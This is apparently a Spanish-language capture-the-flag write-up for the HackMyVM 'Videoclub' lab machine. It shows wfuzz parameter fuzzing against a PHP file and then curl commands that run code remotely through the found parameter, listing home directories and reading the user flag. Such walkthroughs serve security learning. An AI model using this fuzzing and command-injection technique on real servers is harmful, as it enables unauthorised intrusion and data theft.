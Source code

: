 Tenemos varios directorios y un archivo .php que será el primero que revisaré, ya que podríamos tener algún LFI, Directory Path Transversal o RCE.

Al acceder a la ruta `http://192.168.0.16:3377/c0ntr0l.php` desde el navegador no hay nada, pero podríamos mirar si podemos ejecutar comandos o leer archivos locales, ya que tenemos un archivo .php.

Pero existe un problema, necesitamos averiguar el parámetro para poder probar estas vulnerabilidades, asique vamos a intentar fuzzear para conseguir el parámetro que buscamos.

Lanzo gobuster usando el diccionario rockyou.txt.

`wfuzz -c -u 'http://192.168.0.16:3377/c0ntr0l.php?FUZZ=id' -w /usr/share/wordlists/rockyou.txt --hl=0 --hc=0 -t 1000`

Pero tarda demasiado y mi paciencia es nula, asique mientras esperaba se me ocurrió meter el diccionario de usuarios que habíamos encontrado en el servidor web.

`wfuzz -c -u 'http://192.168.0.16:3377/c0ntr0l.php?FUZZ=id' -w /home/elc4br4/user.txt --hl=0 --hc=0 -t 1000`

![](/assets/images/HMV/Videoclub-HackMyVM/wfuzz.webp)

Y ya tenemos el parámetro `f1ynn`, asique vamos a ver si es vulnerable a RCE el servidor web.

# Explotación 

```bash
❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Y es vulnerable a RCE, podemos ejecutar comandos en el servidor.

Puedo intentar listar usuarios del sistema

```bash
❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=ls+/home'
librarian
secret_film
```

Incluso podría intentar leer la flag user.

```bash
❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=cat+/home/librarian/user.txt'
              .-"'"-.
             |       |  
           (`-._____.-')
        ..  `-._____.-'  ..
      .', :./'.== ==.`\.: ,`.
     : (  :   ___ ___   :  ) ;	a*******f1a**
     '._.:    |0| |0|    :._.'
        /     `-'_`-'     \
      _.|       / \       |._
    .'.-|      (   )      |-.`.
   //'  |  .-"`"`-'"`"-.  |  `\\ 
  ||    |  `~":-...-:"~`  |    ||
```